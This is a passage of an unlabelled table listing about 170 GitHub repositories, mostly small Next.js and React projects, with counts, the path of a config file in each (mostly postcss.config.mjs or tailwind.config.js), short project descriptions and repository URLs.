| 94 | umarabid123/The_INTERNET_OF_AGENTS_HACKATHON | umarabid123 | User | 1 | 2 | 1 | frontend/postcss.config.mjs |  | https://github.com/umarabid123/The_INTERNET_OF_AGENTS_HACKATHON |
| 95 | ahmadraza382/FinanceAi | ahmadraza382 | User | 3 | 1 | 1 | tailwind.config.js | Finance Ai Coach  | https://github.com/ahmadraza382/FinanceAi |
| 96 | tanushbhootra576/turbo-happiness | tanushbhootra576 | User | 4 | 0 | 1 | postcss.config.mjs |  | https://github.com/tanushbhootra576/turbo-happiness |
| 97 | shaheeer-dev/sketchers | shaheeer-dev | User | 0 | 2 | 1 | postcss.config.mjs |  | https://github.com/shaheeer-dev/sketchers |
| 98 | tanushbhootra576/game | tanushbhootra576 | User | 4 | 0 | 1 | postcss.config.mjs |  | https://github.com/tanushbhootra576/game |
| 99 | tanushbhootra576/GridSaga | tanushbhootra576 | User | 4 | 0 | 1 | postcss.config.mjs |  | https://github.com/tanushbhootra576/GridSaga |
| 100 | senulahesara/devkit | senulahesara | User | 2 | 1 | 1 | postcss.config.mjs | Essential tools, blazing-fast performance, and offline-ready features-built to streamline your workflow and keep you focused on what matters: writing great code. | https://github.com/senulahesara/devkit |
| 101 | tanushbhootra576/week3-forms-and-inputs | tanushbhootra576 | User | 4 | 0 | 1 | postcss.config.mjs |  | https://github.com/tanushbhootra576/week3-forms-and-inputs |
| 102 | tanushbhootra576/PW-app | tanushbhootra576 | User | 4 | 0 | 1 | postcss.config.mjs |  | https://github.com/tanushbhootra576/PW-app |
| 103 | tanushbhootra576/RESTRO | tanushbhootra576 | User | 4 | 0 | 1 | tailwind.config.js |  | https://github.com/tanushbhootra576/RESTRO |
| 104 | tanushbhootra576/MoodSync | tanushbhootra576 | User | 4 | 0 | 1 | App.js |  | https://github.com/tanushbhootra576/MoodSync |
| 105 | Amanbanti/Capstone | Amanbanti | User | 1 | 1 | 1 | frontend/postcss.config.mjs | The Capstone Project is a culminating academic and practical experience for students in both the Software Engineering (SE) and Computer Science and Engineering (CSE) programs. | https://github.com/Amanbanti/Capstone |
| 106 | ShifaLabs/shifa | ShifaLabs | User | 1 | 1 | 1 | postcss.config.mjs | Shefa is a web-based telemedicine platform that enables patients to consult verified doctors through real-time in-app video calls, receive digital prescriptions, and manage their healthcare remotely in a secure and professional environment. This is a deployable, production-grade system, not a demo or academic mock-up. | https://github.com/ShifaLabs/shifa |
| 107 | SouravDn-p/mobile-canvas-nextjs | SouravDn-p | User | 1 | 1 | 1 | postcss.config.mjs | MobileCanvas is a modern, full-stack e-commerce platform focused on selling gadgets and mobile devices. Built with Next.js, Redux Toolkit, and MongoDB, it offers a secure, responsive, and seamless shopping experience for users and powerful management tools for admins. | https://github.com/SouravDn-p/mobile-canvas-nextjs |
| 108 | RinSanom/IoTWeb | RinSanom | User | 1 | 1 | 1 | postcss.config.mjs |  | https://github.com/RinSanom/IoTWeb |
| 109 | kanchana404/Google-bussiness-api-Get-reviews-and-Reply-reviews | kanchana404 | User | 1 | 1 | 1 | postcss.config.mjs |  | https://github.com/kanchana404/Google-bussiness-api-Get-reviews-and-Reply-reviews |
| 110 | Salman1205/MailAssist | Salman1205 | User | 1 | 1 | 1 | postcss.config.mjs | AI-powered customer support platform with Gmail integration, smart ticketing, automated responses, Shopify integration, and real-time team collaboration | https://github.com/Salman1205/MailAssist |
| 111 | Yassin-Younis/bypass-in-app-browser | Yassin-Younis | User | 3 | 0 | 1 | next.config.mjs |  Bypass in-app browsers from social media apps like Instagram, Facebook, TikTok, and more. Send users to their native browser when they click on your social media ads to improve engagement, accurate tracking, and boost conversions. | https://github.com/Yassin-Younis/bypass-in-app-browser |
| 112 | Lithira-Silva/TrueClaim---ITPM- | Lithira-Silva | User | 2 | 0 | 1 | client/postcss.config.mjs | TrueClaim — A smart claim management system developed as an ITPM project at SLIIT (Year 3, Semester 2). Built with the MERN stack to streamline and automate the insurance claim process with accuracy and efficiency. | https://github.com/Lithira-Silva/TrueClaim---ITPM- |
| 113 | maaz-bin-hassan/sahoolat-web-new | maaz-bin-hassan | User | 2 | 0 | 1 | postcss.config.mjs |  | https://github.com/maaz-bin-hassan/sahoolat-web-new |
| 114 | Pramadu2001/ITPM_MODUS | Pramadu2001 | User | 0 | 1 | 1 | my-app/postcss.config.mjs | 3rd year 2nd semester Information and  technology project management project which is MODUS learning platfrom  | https://github.com/Pramadu2001/ITPM_MODUS |
| 115 | abimtad/upload_file | abimtad | User | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/abimtad/upload_file |
| 116 | anilgoswamistartbitsolutions/travel-platform | anilgoswamistartbitsolutions | User | 0 | 1 | 3 | sites/holidaydeals/postcss.config.mjs \| travel_template/package/postcss.config.mjs \| travel_template/old/postcss.config.mjs |  | https://github.com/anilgoswamistartbitsolutions/travel-platform |
| 117 | AhsanalyOfficial/ahsan_portfolio | AhsanalyOfficial | User | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/AhsanalyOfficial/ahsan_portfolio |
| 118 | HevenDev/rmw-new-design | HevenDev | User | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/HevenDev/rmw-new-design |
| 119 | anilgoswamistartbitsolutions/travel-payload-sites | anilgoswamistartbitsolutions | User | 0 | 1 | 2 | sites/holidaydeals/postcss.config.mjs \| sites/luxurytravels/postcss.config.mjs |  | https://github.com/anilgoswamistartbitsolutions/travel-payload-sites |
| 120 | dhruvmalik007/solana-colossum-hackathon | dhruvmalik007 | User | 0 | 1 | 2 | apps/web/postcss.config.mjs \| packages/ui/postcss.config.mjs | building a prediction marketplace for the thematic investment platform for sustainable investment portfolios | https://github.com/dhruvmalik007/solana-colossum-hackathon |
| 121 | Tiewasters99/AI_Law_Wizard | Tiewasters99 | User | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/Tiewasters99/AI_Law_Wizard |
| 122 | coderkhalide/scalping-trading-tools | coderkhalide | User | 0 | 1 | 1 | postcss.config.mjs | Configure and grade your trading entries with weighted factors, individual factor grading, bonus points, and letter grades | https://github.com/coderkhalide/scalping-trading-tools |
| 123 | monazahmed/Agrismart-project- | monazahmed | User | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/monazahmed/Agrismart-project- |
| 124 | Gowreesh-VT/SherlockIT | Gowreesh-VT | User | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/Gowreesh-VT/SherlockIT |
| 125 | webprogramminghack/b3-practice-30 | webprogramminghack | User | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/webprogramminghack/b3-practice-30 |
| 126 | Salman1205/Mail-Assist-CRM | Salman1205 | User | 2 | 0 | 1 | postcss.config.mjs |  | https://github.com/Salman1205/Mail-Assist-CRM |
| 127 | AbdulwahidHusein/Shipper-chat | AbdulwahidHusein | User | 2 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/AbdulwahidHusein/Shipper-chat |
| 128 | michelzappy/zappy-scratch-091225 | michelzappy | User | 0 | 1 | 1 | frontend/tailwind.config.js |  | https://github.com/michelzappy/zappy-scratch-091225 |
| 129 | Ali-Hamas/Learn_Hub | Ali-Hamas | User | 0 | 1 | 1 | frontend/tailwind.config.js | LearnHub - Multi-Instructor Learning Platform with FastAPI, React, MongoDB, Stripe Payments, and AI Tutor | https://github.com/Ali-Hamas/Learn_Hub |
| 130 | VALENSAPP/coin_backend | VALENSAPP | User | 0 | 1 | 1 | eslint.config.mjs | Backend Repository. | https://github.com/VALENSAPP/coin_backend |
| 131 | QaisarWaheed/Aluminum-POS | QaisarWaheed | User | 0 | 1 | 1 | eslint.config.mjs |  | https://github.com/QaisarWaheed/Aluminum-POS |
| 132 | Abdulbasit219/UPSkaleAI | Abdulbasit219 | User | 1 | 0 | 1 | postcss.config.mjs | UP SKale AI APP for students (learner) and (Earners) (FYP Project) | https://github.com/Abdulbasit219/UPSkaleAI |
| 133 | Satyam3002/nextauth | Satyam3002 | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/Satyam3002/nextauth |
| 134 | ahmadraza382/Hospital-management-system | ahmadraza382 | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/ahmadraza382/Hospital-management-system |
| 135 | AKDebug-UX/challengePR | AKDebug-UX | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/AKDebug-UX/challengePR |
| 136 | Ruwanima/ella-south-star-frontend | Ruwanima | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/Ruwanima/ella-south-star-frontend |
| 137 | ahmadraza382/Luxeurs-Shopping-Store | ahmadraza382 | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/ahmadraza382/Luxeurs-Shopping-Store |
| 138 | ahmadraza382/Portfolio | ahmadraza382 | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/ahmadraza382/Portfolio |
| 139 | Ayesha-Siddiqui1234/katy-youth-hackathon-2025-dev-post- | Ayesha-Siddiqui1234 | User | 1 | 0 | 1 | frontend/postcss.config.mjs | our team participated in katy yoth hackathon 2025 and we are building a fully functional website weith integrated chatbot i would be something like career counselor which guide students for their career path | https://github.com/Ayesha-Siddiqui1234/katy-youth-hackathon-2025-dev-post- |
| 140 | WimpyvL/Zappy-Health-Dashboard | WimpyvL | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/WimpyvL/Zappy-Health-Dashboard |
| 141 | ifedolapoomoniyi/fleet-robotics | ifedolapoomoniyi | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/ifedolapoomoniyi/fleet-robotics |
| 142 | muhammad-tahir-sultan/rehman-fyp-nextjs-multivendor | muhammad-tahir-sultan | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/muhammad-tahir-sultan/rehman-fyp-nextjs-multivendor |
| 143 | vkrms/wizard | vkrms | User | 1 | 0 | 1 | postcss.config.mjs | react multi-step form training project | https://github.com/vkrms/wizard |
| 144 | Atik203/VocabPrep | Atik203 | User | 1 | 0 | 1 | frontend/postcss.config.mjs | A modern, focused web application to help you build and master English vocabulary through interactive learning, practice sessions, and progress tracking. | https://github.com/Atik203/VocabPrep |
| 145 | web-ghoul/Portfolio | web-ghoul | User | 1 | 0 | 1 | postcss.config.mjs | it is including my projects, my experiences, my certificates, my contact. | https://github.com/web-ghoul/Portfolio |
| 146 | AbdulwahidHusein/ai-tools-directory | AbdulwahidHusein | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/AbdulwahidHusein/ai-tools-directory |
| 147 | AhmadRazaKhokhar1/resturants-app | AhmadRazaKhokhar1 | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/AhmadRazaKhokhar1/resturants-app |
| 148 | ishivamgaur/Ap-news-next-js | ishivamgaur | User | 1 | 0 | 1 | postcss.config.mjs | AP News is a Next.js–based news application that delivers categorized news content such as politics, sports, technology, entertainment, and live updates with fast performance, SEO optimization, and server-side rendering. | https://github.com/ishivamgaur/Ap-news-next-js |
| 149 | amMubbasher/cleannami.ceenami-old | amMubbasher | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/amMubbasher/cleannami.ceenami-old |
| 150 | AbdulwahidHusein/crawler-dashboard | AbdulwahidHusein | User | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/AbdulwahidHusein/crawler-dashboard |
| 151 | SouravDn-p/RexAuction | SouravDn-p | User | 1 | 0 | 1 | tailwind.config.js | A real-time auction web application built for live bidding experiences, combining advanced features like instant updates, smart bidding, and real-time communication between users. | https://github.com/SouravDn-p/RexAuction |
| 152 | AKDebug-UX/interactive-tv-app | AKDebug-UX | User | 1 | 0 | 1 | tailwind.config.js |  | https://github.com/AKDebug-UX/interactive-tv-app |
| 153 | usman-174/VidSpark | usman-174 | User | 1 | 0 | 1 | client/tailwind.config.js |  | https://github.com/usman-174/VidSpark |
| 154 | NatyJoseDie/proyecto-nginx | NatyJoseDie | User | 1 | 0 | 1 | eslint.config.mjs |  | https://github.com/NatyJoseDie/proyecto-nginx |
| 155 | AKDebug-UX/DoneWithIt | AKDebug-UX | User | 1 | 0 | 1 | App.js |  | https://github.com/AKDebug-UX/DoneWithIt |
| 156 | dhruvmalik007/forensics-board | dhruvmalik007 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/dhruvmalik007/forensics-board |
| 157 | Rahulkumarhavit/ProStore-Ecommerce | Rahulkumarhavit | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Rahulkumarhavit/ProStore-Ecommerce |
| 158 | Bart3kL/shopify-components | Bart3kL | User | 0 | 0 | 1 | polaris-components/postcss.config.mjs |  | https://github.com/Bart3kL/shopify-components |
| 159 | mjatin-dev/logic-zephyr | mjatin-dev | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/mjatin-dev/logic-zephyr |
| 160 | umrasghar/heygen-demo | umrasghar | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/umrasghar/heygen-demo |
| 161 | thanhdanh111/challenge | thanhdanh111 | User | 0 | 0 | 2 | Problem-2/postcss.config.mjs \| Problem-3/postcss.config.mjs |  | https://github.com/thanhdanh111/challenge |
| 162 | hamza-nafasat/rentin-frontend | hamza-nafasat | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/hamza-nafasat/rentin-frontend |
| 163 | rejoan121615/ClientOps | rejoan121615 | User | 0 | 0 | 1 | frontend/postcss.config.mjs | ClientOps is a full-stack internal operations dashboard designed for agencies and small businesses to manage clients, projects, team members, and workflows securely. | https://github.com/rejoan121615/ClientOps |
| 164 | SouravDn-p/CMR | SouravDn-p | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/SouravDn-p/CMR |
| 165 | EmanDeveloper/EasyTech | EmanDeveloper | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/EmanDeveloper/EasyTech |
| 166 | addis-ale/25-5-clock | addis-ale | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/addis-ale/25-5-clock |
| 167 | MSCPerera/Job-Board-App | MSCPerera | User | 0 | 0 | 1 | job-board-app/postcss.config.mjs |  | https://github.com/MSCPerera/Job-Board-App |
| 168 | Nathanim1919/nextjs-project | Nathanim1919 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Nathanim1919/nextjs-project |
| 169 | TimothyBabatu13/AegisHealth-Smart | TimothyBabatu13 | User | 0 | 0 | 1 | aegis-health-smart/postcss.config.mjs |  | https://github.com/TimothyBabatu13/AegisHealth-Smart |
| 170 | Senti-fi/Senti.fi | Senti-fi | User | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/Senti-fi/Senti.fi |
| 171 | Zentaurios/stable-monitor | Zentaurios | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Zentaurios/stable-monitor |
| 172 | SouravDn-p/Frontend-task | SouravDn-p | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/SouravDn-p/Frontend-task |
| 173 | Storaboy11/meerge | Storaboy11 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Storaboy11/meerge |
| 174 | ahmedghonim/esraa | ahmedghonim | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/ahmedghonim/esraa |
| 175 | vrunda310/AIA-VEGA-Frontend | vrunda310 | User | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/vrunda310/AIA-VEGA-Frontend |
| 176 | emmanueldavidson96/popular_saas_product_landing_page | emmanueldavidson96 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/emmanueldavidson96/popular_saas_product_landing_page |
| 177 | pratikp72/deal-Project | pratikp72 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/pratikp72/deal-Project |
| 178 | Al-amin07/file_sure | Al-amin07 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Al-amin07/file_sure |
| 179 | waris-ansar/finstar | waris-ansar | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/waris-ansar/finstar |
| 180 | MianHaziq/LKnight-Lms | MianHaziq | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/MianHaziq/LKnight-Lms |
| 181 | pankajkhadse/TrustBasket | pankajkhadse | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/pankajkhadse/TrustBasket |
| 182 | adnaan-2/content-generation | adnaan-2 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/adnaan-2/content-generation |
| 183 | malikjunaidhassann/seller-panel | malikjunaidhassann | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/malikjunaidhassann/seller-panel |
| 184 | mdnuruzzamannirob/your-capture-awards-dashboard | mdnuruzzamannirob | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/mdnuruzzamannirob/your-capture-awards-dashboard |
| 185 | Minahil48/NY-caffine | Minahil48 | User | 0 | 0 | 1 | postcss.config.mjs | All your cravings in one place | https://github.com/Minahil48/NY-caffine |
| 186 | FrazKhan1/dev-team-chat | FrazKhan1 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/FrazKhan1/dev-team-chat |
| 187 | jrioscloud/financial-document-analyzer | jrioscloud | User | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/jrioscloud/financial-document-analyzer |
| 188 | seemab-ahmed/rodopi | seemab-ahmed | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/seemab-ahmed/rodopi |
| 189 | JudeTejada/digital-pods | JudeTejada | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/JudeTejada/digital-pods |
| 190 | msuhels/RapidProject-Pos-System | msuhels | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/msuhels/RapidProject-Pos-System |
| 191 | Al-amin07/project_5_frontend | Al-amin07 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Al-amin07/project_5_frontend |
| 192 | abdullah2310ishaq/afronaut | abdullah2310ishaq | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/abdullah2310ishaq/afronaut |
| 193 | Jaskaran2701/Test-1 | Jaskaran2701 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Jaskaran2701/Test-1 |
| 194 | Deepanshu7-bit/nugen-interns | Deepanshu7-bit | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Deepanshu7-bit/nugen-interns |
| 195 | saifullah-max/bublr | saifullah-max | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/saifullah-max/bublr |
| 196 | Meet2054/automa8x-production-new | Meet2054 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Meet2054/automa8x-production-new |
| 197 | bharatbrovitech/india-to-germany | bharatbrovitech | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/bharatbrovitech/india-to-germany |
| 198 | PremShakti/PanchangCalendar | PremShakti | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/PremShakti/PanchangCalendar |
| 199 | Pa-ppy/Checkout | Pa-ppy | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Pa-ppy/Checkout |
| 200 | Atif-Hameed/als-admin | Atif-Hameed | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Atif-Hameed/als-admin |
| 201 | Dawit212119/Devodemy | Dawit212119 | User | 0 | 0 | 1 | postcss.config.mjs |  Build an LMS using  Nextjs, React, Stripe, Mux, next app router, Prisma, Strip,  Mysql, Docker, AWS Lambda, , Redux Toolkit, Tailwind CSS, Shadcn, TypeScript, Zod, aws s3,aws CloudFront,Clerk, | https://github.com/Dawit212119/Devodemy |
| 202 | SouravDn-p/NextManager-YourInventoryManager | SouravDn-p | User | 0 | 0 | 1 | postcss.config.mjs | Next.js Inventory Manager A full-stack Inventory Management System built with Next.js 14 App Router, Tailwind CSS, MongoDB, and Redux Toolkit (RTK Query). This app supports both social authentication via NextAuth.js (Google, GitHub) and traditional email/password login using JWT. | https://github.com/SouravDn-p/NextManager-YourInventoryManager |
| 203 | ranjannkumar/Token-Vesting-App | ranjannkumar | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/ranjannkumar/Token-Vesting-App |
| 204 | Usamahafiz8/fetchdetails | Usamahafiz8 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Usamahafiz8/fetchdetails |
| 205 | freelancework00700/CRM-test-task | freelancework00700 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/freelancework00700/CRM-test-task |
| 206 | ahmadraza382/APIs-integration | ahmadraza382 | User | 0 | 0 | 1 | postcss.config.mjs | Get data From Apis and just for practice and rough | https://github.com/ahmadraza382/APIs-integration |
| 207 | akashmuhammadabrrar/Resume-builder-NextTypescript | akashmuhammadabrrar | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/akashmuhammadabrrar/Resume-builder-NextTypescript |
| 208 | abimtad/Customer-feedback | abimtad | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/abimtad/Customer-feedback |
| 209 | SanjayaPrasadRajapaksha/Blog_App | SanjayaPrasadRajapaksha | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/SanjayaPrasadRajapaksha/Blog_App |
| 210 | MunibQazi12/next-starter-template | MunibQazi12 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/MunibQazi12/next-starter-template |
| 211 | PremShakti/multi-tenet-school-profile-app | PremShakti | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/PremShakti/multi-tenet-school-profile-app |
| 212 | mirzaghalib4726/committee-system-next | mirzaghalib4726 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/mirzaghalib4726/committee-system-next |
| 213 | ChiraniSiriwardhana/Spirit11 | ChiraniSiriwardhana | User | 0 | 0 | 1 | postcss.config.mjs | A secure and user-friendly authentication system | https://github.com/ChiraniSiriwardhana/Spirit11 |
| 214 | developerdesigner18/Frontend-Task | developerdesigner18 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/developerdesigner18/Frontend-Task |
| 215 | noors-code/Account-Settings | noors-code | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/noors-code/Account-Settings |
| 216 | finom/vovk-hello-world | finom | User | 0 | 0 | 1 | postcss.config.mjs | Vovk.ts Hello World App | https://github.com/finom/vovk-hello-world |
| 217 | Yashpreetrana4790/Bestvocabulary_platform | Yashpreetrana4790 | User | 0 | 0 | 1 | postcss.config.mjs | Vocab learning website | https://github.com/Yashpreetrana4790/Bestvocabulary_platform |
| 218 | Atif-Hameed/unsigned-admin | Atif-Hameed | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Atif-Hameed/unsigned-admin |
| 219 | saifullah-max/mandviwalla-mauser | saifullah-max | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/saifullah-max/mandviwalla-mauser |
| 220 | Navoda001/Solana | Navoda001 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Navoda001/Solana |
| 221 | wolfstudiosai/braxx-frontend-v2 | wolfstudiosai | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/wolfstudiosai/braxx-frontend-v2 |
| 222 | cywasay/neorecruits- | cywasay | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/cywasay/neorecruits- |
| 223 | raoarafat/steelh-website | raoarafat | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/raoarafat/steelh-website |
| 224 | Qasim-dev/stock-tracker | Qasim-dev | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Qasim-dev/stock-tracker |
| 225 | teresagrobecker/pensio_consortia | teresagrobecker | User | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/teresagrobecker/pensio_consortia |
| 226 | umarabid123/Raise-Your-Hack | umarabid123 | User | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/umarabid123/Raise-Your-Hack |
| 227 | dhruvmalik007/xrpl_haks_hackathon_project | dhruvmalik007 | User | 0 | 0 | 1 | postcss.config.mjs | XRPL hack competition submission: developing RAG agent framework for price monitoring and market making of impact certificates | https://github.com/dhruvmalik007/xrpl_haks_hackathon_project |
| 228 | addis-ale/EGA | addis-ale | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/addis-ale/EGA |
| 229 | addis-ale/free_code_camp_task_01 | addis-ale | User | 0 | 0 | 1 | postcss.config.mjs | Free codecamp front end libraries certification task  | https://github.com/addis-ale/free_code_camp_task_01 |
| 230 | addis-ale/gd-landing-page | addis-ale | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/addis-ale/gd-landing-page |
| 231 | Al-amin07/purple-cat-client | Al-amin07 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Al-amin07/purple-cat-client |
| 232 | Al-amin07/apparel-trade-bd | Al-amin07 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Al-amin07/apparel-trade-bd |
| 233 | Al-amin07/hyshin | Al-amin07 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Al-amin07/hyshin |
| 234 | Al-amin07/web-programming-lab | Al-amin07 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Al-amin07/web-programming-lab |
| 235 | mdnuruzzamannirob/relo-website | mdnuruzzamannirob | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/mdnuruzzamannirob/relo-website |
| 236 | Harsimran-Nugen/assignment | Harsimran-Nugen | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Harsimran-Nugen/assignment |
| 237 | cto-varun/user-crud-design-nextjs | cto-varun | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/cto-varun/user-crud-design-nextjs |
| 238 | Aman-scripts/NugenEmployabilityTest | Aman-scripts | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Aman-scripts/NugenEmployabilityTest |
| 239 | akashstwt/inventory-management-majorproject | akashstwt | User | 0 | 0 | 1 | client/postcss.config.mjs |  | https://github.com/akashstwt/inventory-management-majorproject |
| 240 | akashstwt/TheGitcode | akashstwt | User | 0 | 0 | 1 | gitcodeweb/postcss.config.mjs |  | https://github.com/akashstwt/TheGitcode |
| 241 | Atif-Hameed/ALS-Panel | Atif-Hameed | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Atif-Hameed/ALS-Panel |
| 242 | umarabid123/store-forge | umarabid123 | User | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/umarabid123/store-forge |
| 243 | addis-ale/discord | addis-ale | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/addis-ale/discord |
| 244 | addis-ale/hirecards-prod | addis-ale | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/addis-ale/hirecards-prod |
| 245 | addis-ale/ega_updated | addis-ale | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/addis-ale/ega_updated |
| 246 | addis-ale/group-match | addis-ale | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/addis-ale/group-match |
| 247 | SanjayaPrasadRajapaksha/Hotel_Booking-Admin_Panel | SanjayaPrasadRajapaksha | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/SanjayaPrasadRajapaksha/Hotel_Booking-Admin_Panel |
| 248 | SanjayaPrasadRajapaksha/Todo_App | SanjayaPrasadRajapaksha | User | 0 | 0 | 1 | my-app/postcss.config.mjs |  | https://github.com/SanjayaPrasadRajapaksha/Todo_App |
| 249 | PremShakti/Inventory-Todo-Manager | PremShakti | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/PremShakti/Inventory-Todo-Manager |
| 250 | fsdteam8/lowready-dashboard | fsdteam8 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/fsdteam8/lowready-dashboard |
| 251 | badhon252/shift-scheduler | badhon252 | User | 0 | 0 | 1 | postcss.config.mjs | Build to streamline the shift scheduler | https://github.com/badhon252/shift-scheduler |
| 252 | fsdteam8/stevenar77-dashboard | fsdteam8 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/fsdteam8/stevenar77-dashboard |
| 253 | Atif-Hameed/unsigned-frontend | Atif-Hameed | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Atif-Hameed/unsigned-frontend |
| 254 | Atif-Hameed/social-admin | Atif-Hameed | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Atif-Hameed/social-admin |
| 255 | Atif-Hameed/cybenty | Atif-Hameed | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Atif-Hameed/cybenty |
| 256 | anthemnandani/ai | anthemnandani | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/anthemnandani/ai |
| 257 | mijanConnect/the-piegeon-hub-website | mijanConnect | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/mijanConnect/the-piegeon-hub-website |
| 258 | Button-20/juzbuild | Button-20 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Button-20/juzbuild |
| 259 | HyderYash/my-progess-tracker | HyderYash | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/HyderYash/my-progess-tracker |
| 260 | MohamedH1000/course | MohamedH1000 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/MohamedH1000/course |
| 261 | nipun-imesh/sample-react | nipun-imesh | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/nipun-imesh/sample-react |
| 262 | sayyamButt317/ishout | sayyamButt317 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sayyamButt317/ishout |
| 263 | rvmediacorp/Headshot-Portland-Official | rvmediacorp | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/rvmediacorp/Headshot-Portland-Official |
